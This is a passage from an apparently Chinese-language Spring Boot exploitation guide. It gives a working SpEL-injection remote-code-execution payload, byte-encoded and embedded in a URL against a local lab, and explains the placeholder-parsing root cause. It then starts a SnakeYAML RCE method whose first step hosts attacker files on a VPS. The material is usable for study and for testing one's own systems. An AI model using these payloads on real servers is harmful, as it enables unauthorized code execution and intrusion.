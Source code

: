 执行 `open -a Calculator` 命令

```java
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```



#### 漏洞原理：

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中  `${}`  包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞



#### 漏洞分析：

​	[SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)



#### 漏洞环境：

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

正常访问：

```
http://127.0.0.1:9091/article?id=66
```

执行 `open -a Calculator` 命令：

```java
http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

 

### 0x02：spring cloud SnakeYAML RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）



#### 利用方法：

##### 步骤一： 托管 yml 和 jar 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
